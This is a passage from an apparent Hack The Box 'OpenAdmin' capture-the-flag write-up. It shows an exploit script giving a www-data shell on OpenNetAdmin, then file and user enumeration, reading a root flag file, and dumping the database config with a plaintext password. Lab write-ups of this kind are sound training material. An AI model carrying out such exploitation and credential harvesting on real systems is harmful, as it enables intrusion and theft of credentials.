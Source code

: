 ```
root@kali:~/htb/openadmin# ./exploit.sh http://openadmin.htb/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Unintended path to root flag

While looking around the filesystem I found a hash in `priv.save` which turned out to be the root flag.
```
$ ls -l /opt
total 12
drwxr-x--- 7 www-data www-data 4096 Nov 21 18:23 ona
-rw-r--r-- 1 root     root        0 Nov 22 23:49 priv
-rw-r--r-- 1 root     root       33 Jan  2 20:54 priv.save
-rw-r--r-- 1 root     root       33 Jan  2 21:12 priv.save.1
$ cat /opt/priv.save
2f907ed450b[...]
```

## Escalating to user jimmy

I see there's two additonal users which I don't have access to right now.

```
$ ls -l /home
total 8
drwxr-x--- 5 jimmy  jimmy  4096 Nov 22 23:15 jimmy
drwxr-x--- 6 joanna joanna 4096 Nov 28 09:37 joanna

$ lslogins
  UID USER            PROC PWD-LOCK PWD-DENY  LAST-LOGIN GECOS
[...]
 1000 jimmy              0                   Jan02/20:50 jimmy
 1001 joanna             0                   Jan02/21:12 ,,,
```

The OpenNetAdmin database credentials are shown in the `/database_settings.inc.php` file.

```
$ cat /opt/ona/www/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
